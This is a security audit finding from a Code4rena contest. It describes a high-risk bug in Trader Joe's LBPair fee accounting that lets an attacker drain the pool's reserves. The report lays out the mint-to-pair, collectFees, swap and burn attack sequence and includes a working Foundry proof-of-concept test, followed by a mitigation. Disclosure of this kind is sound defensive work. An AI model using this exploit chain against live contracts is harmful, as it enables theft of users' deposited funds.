 ## Tags

- bug
- 3 (High Risk)
- primary issue
- sponsor confirmed
- selected for report
- H-05

# [Attacker can steal entire reserves by abusing fee calculation](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/423) 

# Lines of code

https://github.com/code-423n4/2022-10-traderjoe/blob/79f25d48b907f9d0379dd803fc2abc9c5f57db93/src/LBPair.sol#L819-L829
https://github.com/code-423n4/2022-10-traderjoe/blob/79f25d48b907f9d0379dd803fc2abc9c5f57db93/src/LBToken.sol#L202


# Vulnerability details

## Description

Similar to other LP pools, In Trader Joe users can call mint() to provide liquidity and receive LP tokens, and burn() to return their LP tokens in exchange for underlying assets. Users collect fees using collectFess(account,binID). Fees are implemented using debt model. The fundamental fee calculation is:

```
    function _getPendingFees(
        Bin memory _bin,
        address _account,
        uint256 _id,
        uint256 _balance
    ) private view returns (uint256 amountX, uint256 amountY) {
        Debts memory _debts = _accruedDebts[_account][_id];

        amountX = _bin.accTokenXPerShare.mulShiftRoundDown(_balance, Constants.SCALE_OFFSET) - _debts.debtX;
        amountY = _bin.accTokenYPerShare.mulShiftRoundDown(_balance, Constants.SCALE_OFFSET) - _debts.debtY;
    }
```

accTokenXPerShare / accTokenYPerShare is an ever increasing amount that is updated when swap fees are paid to the current active bin.

When liquidity is first minted to user, the \_accruedDebts is updated to match current \_balance * accToken\*PerShare. Without this step, user could collect fees for the entire growth of accToken\*PerShare from zero to current value. This is done in \_updateUserDebts, called by \_cacheFees() which is called by \_beforeTokenTransfer(), the token transfer hook triggered on mint/burn/transfer.

```
    function _updateUserDebts(
        Bin memory _bin,
        address _account,
        uint256 _id,
        uint256 _balance
    ) private {
        uint256 _debtX = _bin.accTokenXPerShare.mulShiftRoundDown(_balance, Constants.SCALE_OFFSET);
        uint256 _debtY = _bin.accTokenYPerShare.mulShiftRoundDown(_balance, Constants.SCALE_OFFSET);

        _accruedDebts[_account][_id].debtX = _debtX;
        _accruedDebts[_account][_id].debtY = _debtY;
    }
```

The critical problem lies in \_beforeTokenTransfer:

```
if (_from != _to) {
    if (_from != address(0) && _from != address(this)) {
        uint256 _balanceFrom = balanceOf(_from, _id);
        _cacheFees(_bin, _from, _id, _balanceFrom, _balanceFrom - _amount);
    }
    if (_to != address(0) && _to != address(this)) {
        uint256 _balanceTo = balanceOf(_to, _id);
        _cacheFees(_bin, _to, _id, _balanceTo, _balanceTo + _amount);
    }
}
```

Note that if \_from or \_to is the LBPair contract itself, \_cacheFees won't be called on \_from or \_to respectively. This was presumably done because it is not expected that the LBToken address will receive any fees. It is expected that the LBToken will only hold tokens when user sends LP tokens to burn. 

This is where the bug manifests - the LBToken address (and 0 address), will collect freshly minted LP token's fees from 0 to current accToken\*PerShare value.

We can exploit this bug to collect the entire reserve assets. The attack flow is:
- Transfer amount X to pair
- Call pair.mint(), with the to address = pair address
- call collectFees() with pair address as account -> pair will send to itself the fees! It is interesting that both OZ ERC20 implementation and LBToken implementation allow this, otherwise this exploit chain would not work
- Pair will now think user sent in money, because the bookkeeping is wrong. \_pairInformation.feesX.total is decremented in collectFees(), but the balance did not change. Therefore, this calculation will credit attacker with the fees collected into the pool:
```
uint256 _amountIn = _swapForY
    ? tokenX.received(_pair.reserveX, _pair.feesX.total)
    : tokenY.received(_pair.reserveY, _pair.feesY.total);
```
- Attacker calls swap() and receives reserve assets using the fees collected.
- Attacker calls burn(), passing their own address in \_to parameter. This will successfully burn the minted tokens from step 1 and give Attacker their deposited assets.

Note that if the contract did not have the entire collectFees code in an unchecked block, the loss would be limited to the total fees accrued:
```
if (amountX != 0) {
    _pairInformation.feesX.total -= uint128(amountX);
}
if (amountY != 0) {
    _pairInformation.feesY.total -= uint128(amountY);
}
```

If attacker would try to overflow the feesX/feesY totals, the call would revert. Unfortunately, because of the unchecked block feesX/feesY would overflow and therefore there would be no problem for attacker to take the entire reserves.

## Impact

Attacker can steal the entire reserves of the LBPair.

## Proof of Concept

Paste this test in LBPair.Fees.t.sol:

```
    function testAttackerStealsReserve() public {
        uint256 amountY=  53333333333333331968;
        uint256 amountX = 100000;

        uint256 amountYInLiquidity = 100e18;
        uint256 totalFeesFromGetSwapX;
        uint256 totalFeesFromGetSwapY;

        addLiquidity(amountYInLiquidity, ID_ONE, 5, 0);
        uint256 id;
        (,,id ) = pair.getReservesAndId();
        console.log("id before" , id);

        //swap X -> Y and accrue X fees
        (uint256 amountXInForSwap, uint256 feesXFromGetSwap) = router.getSwapIn(pair, amountY, true);
        totalFeesFromGetSwapX += feesXFromGetSwap;

        token6D.mint(address(pair), amountXInForSwap);
        vm.prank(ALICE);
        pair.swap(true, DEV);
        (uint256 feesXTotal, , uint256 feesXProtocol, ) = pair.getGlobalFees();

        (,,id ) = pair.getReservesAndId();
        console.log("id after" , id);


        console.log("Bob balance:");
        console.log(token6D.balanceOf(BOB));
        console.log(token18D.balanceOf(BOB));
        console.log("-------------");

        uint256 amount0In = 100e18;

        uint256[] memory _ids = new uint256[](1); _ids[0] = uint256(ID_ONE);
        uint256[] memory _distributionX = new uint256[](1); _distributionX[0] = uint256(Constants.PRECISION);
        uint256[] memory _distributionY = new uint256[](1); _distributionY[0] = uint256(0);

        console.log("Minting for BOB:");
        console.log(amount0In);
        console.log("-------------");

        token6D.mint(address(pair), amount0In);
        //token18D.mint(address(pair), amount1In);
        pair.mint(_ids, _distributionX, _distributionY, address(pair));
        uint256[] memory amounts = new uint256[](1);
        console.log("***");
        for (uint256 i; i < 1; i++) {
            amounts[i] = pair.balanceOf(address(pair), _ids[i]);
            console.log(amounts[i]);
        }
        uint256[] memory profit_ids = new uint256[](1); profit_ids[0] = 8388608;
        (uint256 profit_X, uint256 profit_Y) = pair.pendingFees(address(pair), profit_ids);
        console.log("profit x", profit_X);
        console.log("profit y", profit_Y);
        pair.collectFees(address(pair), profit_ids);
        (uint256 swap_x, uint256 swap_y) = pair.swap(true,BOB);

        console.log("swap x", swap_x);
        console.log("swap y", swap_y);

        console.log("Bob balance after swap:");
        console.log(token6D.balanceOf(BOB));
        console.log(token18D.balanceOf(BOB));
        console.log("-------------");

        console.log("*****");
        pair.burn(_ids, amounts, BOB);


        console.log("Bob balance after burn:");
        console.log(token6D.balanceOf(BOB));
        console.log(token18D.balanceOf(BOB));
        console.log("-------------");

    }
```


## Tools Used

Manual audit, foundry

## Recommended Mitigation Steps

Code should not exempt any address from \_cacheFees(). Even address(0) is important, because attacker can collectFees for the 0 address to overflow the FeesX/FeesY variables, even though the fees are not retrievable for them. 